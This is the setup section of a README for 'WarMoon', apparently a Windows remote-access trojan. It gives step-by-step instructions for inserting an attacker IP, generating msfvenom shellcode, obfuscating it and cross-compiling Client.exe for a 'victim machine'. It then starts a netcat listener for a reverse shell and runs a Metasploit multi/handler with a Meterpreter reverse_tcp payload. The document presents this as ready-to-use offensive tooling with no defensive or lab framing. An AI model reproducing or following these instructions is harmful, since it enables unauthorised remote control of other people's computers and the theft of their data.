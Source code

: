 # Setup

The setup is pretty much the same as the x64 version. However, the msfvenom commands to generate the shellcodes are slightly different. They can be found inside of the Client.c file, and the compilation command is also different.

1. Install mingw-w64
```bash
sudo apt install mingw-w64
```

2. Clone the repository:
```bash
git clone https://github.com/IvanT7D3/WarMoon
```

3. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

4. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)

5. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)

6. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables

7. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

8. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

9. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

10. You should now be good to go, compile everything by typing:
```bash
i686-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

11. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

12. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

13. Now you should start the main server by typing:
```bash
./Server start
```

14. msfconsole commands for Inject86:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```

Everything should now be ready to go. Enjoy :)
